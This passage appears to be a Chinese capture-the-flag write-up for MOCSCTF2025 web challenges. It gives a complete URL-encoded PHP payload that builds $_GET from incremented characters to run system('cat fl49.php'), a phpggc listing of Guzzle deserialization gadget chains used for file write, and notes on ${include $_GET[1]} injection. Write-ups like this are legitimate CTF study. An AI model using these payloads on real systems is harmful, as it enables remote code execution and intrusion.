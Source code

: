 ```
//$$_[1]($$_[2]);//$_GET[1]($_GET[2])
echo $_;
#_GET
```

完整paylaod

```
/s3cret/rce.php?MOCSCTF2025=%24_%3D%5B%5D.''%3B%24_%3D%24_%5B''%3D%3D'%24'%5D%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24__%3D%24_%3B%24_%2B%2B%3B%24_%2B%2B%3B%24___%3D%24_%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%3D%24___.%24__.%24_%3B%24_%3D'_'.%24_%3B%24%24_%5B_%5D(%24%24_%5B__%5D)%3B&_=system&__=cat%20fl49.php
```


### ez-pop

感觉这个更简单一些，`composer.json`可以找到`"guzzlehttp/guzzle": "^7.9"`，这里直接查询

```
./phpggc -l guzzle

Gadget Chains
-------------

NAME                     VERSION                         TYPE                  VECTOR        I
Guzzle/FW1               4.0.0-rc.2 <= 7.5.0+            File write            __destruct
Guzzle/INFO1             6.0.0 <= 6.3.2                  phpinfo()             __destruct    *
Guzzle/RCE1              6.0.0 <= 6.3.2                  RCE: Function Call    __destruct    *
Pydio/Guzzle/RCE1        < 8.2.2                         RCE: Function Call    __toString
WordPress/Guzzle/RCE1    4.0.0 <= 6.4.1+ & WP < 5.5.2    RCE: Function Call    __toString    *
WordPress/Guzzle/RCE2    4.0.0 <= 6.4.1+ & WP < 5.5.2    RCE: Function Call    __destruct    *
```

打WF1即可，然后上传

### ez-write

[出题人wp](https://fushuling.com/index.php/2025/07/14/mocsctf2025-ez-writeez-injection/)

自己写的时候发现可以`${ }`包裹执行，访问`${include $_GET[1]}`可以拿到路径，然后发现可以读取，但是不知道flag在哪里，后面其实明白了就算知道也不行，因为没有权限

后面翻到了陆队的博客，找到了`PHP Base64 Filter`，后面结束了队友跟我说这是测信道攻击？不太懂xd，废了

```
```